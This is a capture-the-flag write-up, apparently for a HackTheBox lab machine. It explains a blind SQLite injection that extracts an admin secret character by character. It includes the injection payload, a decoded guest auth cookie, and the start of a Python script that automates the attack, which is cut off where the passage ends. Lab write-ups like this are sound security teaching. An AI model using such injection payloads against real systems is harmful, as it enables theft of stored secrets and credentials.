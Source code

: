 ![image-20201102221933039](/assets/intense/image-20201102221933039.png)

The admin user has a field "role" that equals 1. It is a field in the database, so we can exploit this information to make some SQL injection magic to retrieve the admin's secret! The query will be this one:

```sqlite
' AND (select CASE WHEN ( (SELECT hex(substr(secret,0,1)) FROM users WHERE role=1) = hex('f') ) then match(1,1) END ))--
```

And the answer will be:

![image-20201102222601904](/assets/intense/image-20201102222601904.png)

Every time we send a message with a different letter the answer is always "OK", except with "f", it seems that "f" is the first letter of admin's secret... But we have to automate this or we risk to become stupid. I wrote a very little python script to achieve that:

```python
#!/usr/bin/env python3

import sys
import requests
import string

URL      = "http://10.10.10.195"
ENDPOINT = URL + "/submitmessage"
COOKIE   = {"auth": "dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7.sM+sPFosMol5cXEvchIHoXtiHyMgg1UmsPiSX8lzgLc=" }

## We need to retrieve admin's secret
# >> echo $COOKIE | cut -d "." -f 1 | base64 -d
# username=guest;secret=84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec;
# >> echo $SECRET | wc -c
# 65
## Which is 65 alnum char lenght

def test(payload):
```